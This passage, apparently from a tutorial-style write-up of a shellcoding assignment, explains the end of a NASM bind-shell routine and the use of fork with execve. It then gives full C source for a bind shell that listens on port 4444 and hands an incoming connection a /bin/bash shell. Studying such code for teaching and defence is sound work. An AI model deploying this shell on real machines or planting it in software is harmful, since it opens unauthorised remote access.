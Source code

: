 After executing the command (syscall 11: `execve`), the child process exits gracefully

```nasm
Exit:

    mov eax, esi
    inc eax
    int 0x80

section .bss

    ReceivedData:   resb 1024
```

To summarise: after redirecting input, output, and error, the program waits to receive data from the Client Socket, using the routine `ReceiveData`, which also clear the buffer to prevent corruption.

After receiving the command, the `fork` syscall is employed.

The reason is due to how `execve` works: once it executes the command, it process exits, so it wouldn't return to receiving other data. In this case, forking allows us to keep a `parent process` that receives commands, and spawn a `child process` for each command executed.

## Final attempt

### C Code

After finishing the second assignment, I noticed the shellcode I wrote uses too many instructions.

To be more specific, the final block (`recv-memset-system`) is superfluous. In fact, once you redirect `stdin`, `stdout` and `stderr`, you can simply spawn a shell and the job is done:

```cpp
#include <netinet/ip.h>

int main() {
    int server_socket_fd, client_socket_fd, size_client_socket_struct;
    struct sockaddr_in server_address, client_address;

    // create a TCP socket
    server_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    server_address.sin_family = AF_INET;
    server_address.sin_addr.s_addr = INADDR_ANY;
    server_address.sin_port = htons(4444);

    // bind the socket to 0.0.0.0:4444
    bind(server_socket_fd, (struct sockaddr *)&amp;server_address, sizeof(server_address));

    // passive socket that listens for connections
    listen(server_socket_fd, 1);

    // accept incoming connection
    size_client_socket_struct = sizeof(struct sockaddr_in);
    client_socket_fd = accept(server_socket_fd, (struct sockaddr *)&amp;client_address, (socklen_t *)&amp;size_client_socket_struct);

    dup2(client_socket_fd, 0);
    dup2(client_socket_fd, 1);
    dup2(client_socket_fd, 2);

    system("/bin/bash");
}
```
